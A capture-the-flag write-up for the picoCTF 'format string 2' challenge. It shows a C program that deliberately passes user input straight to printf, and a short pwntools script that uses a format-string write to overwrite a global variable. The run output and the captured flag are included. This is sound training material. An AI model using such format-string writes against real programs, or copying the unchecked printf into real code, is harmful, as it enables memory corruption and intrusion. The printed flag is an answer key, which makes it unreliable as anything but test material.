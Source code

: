 # format string 2

---
AUTHOR: SKRUBLAWD

Description
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!

---


Source code:

```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}

```

---

here we can see that we need to make the sus variable = 0x67616c66 to get the flag:

We are goona use pwnlib.fmtstr — Format string bug exploitation tools to solve this challenge

Reference : [fmtstr](https://docs.pwntools.com/en/stable/fmtstr.html)

---


Let's get to the exploit:


```python
from pwn import *
ex = ELF('./vuln')
context.binary = ex
# p = process(ex.path)
p = remote("rhea.picoctf.net", 50564)

payload = fmtstr_payload(14, {ex.sym['sus']: 0x67616c66})

p.sendlineafter(b'say?', payload)
p.interactive()

```

Running the above explit:

```bash
❯ python3 exploit.py
[*] '/home/lynk/picoCTF/format-string-2/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to rhea.picoctf.net on port 50564: Done
[*] Switching to interactive mode

Here's your input:                                                                                                      uc    \x00                                                                                                                                                                                                                                                    \x00aaaaba`@@
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{f0rm47_57r?_f0rm47_m3m_e371fb20}[*] Got EOF while reading in interactive
$
```

---

flag: ```picoCTF{f0rm47_57r?_f0rm47_m3m_e371fb20```

---

